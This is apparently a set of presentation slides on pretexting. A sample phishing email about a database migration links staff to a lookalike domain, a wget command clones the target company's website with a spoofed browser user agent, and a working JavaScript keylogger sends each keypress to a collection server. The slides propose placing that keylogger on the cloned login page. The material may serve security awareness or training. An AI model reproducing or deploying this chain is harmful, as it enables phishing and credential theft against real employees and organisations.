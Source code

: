 
# Pretexting

Complex back stories to trick people into performing actions

## Scenario


	from:   Chris Hanson <CHanson@cmopany.com>
	to:      <CCoffine@company.com>, <DSomeson@cmopany.com>, <GDella@company.com> ...

        We are migrating databases from a non-relational database to a 
	relational database. Please try logging in and let me know if you
	have any issues http://company.com

Hyperlink linkes to http://idneep.com

---

# Cloning the target
	
	!bash
	wget -r -l 2 -k -p -E -U "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36" www.company.com

- '-r': Recursive download. Grabs all references through the markup such as href and src. If the freshly downloaded file is also of type text/html, application/xhtml+xml, or text/css, it will be parsed and followed further.
- '-l': Sets the limit on -r to only traverse l levels (in this case 2)
- '-k': Converts absolute links to relative links to make them work locally
- '-p': Grabs static files and images (not html) one level deeper than the -l limit
- 'E': Appends extensions to the filenames such as '.html' 
- 'U': User agnet string (to look like requests are from google chrome)


---

# The keylogger

	!javascript
	document.onkeypress = function(e) {
			var get = window.event ? event : e;
			var key = get.keyCode ? get.keyCode : get.charCode;
			key = String.fromCharCode(key);
    			new Image().src = 'http://localhost:8000/keypress?key=' + key;
	}
---

# Where to place?

Anywhere? Everywhere? Let's try the login page
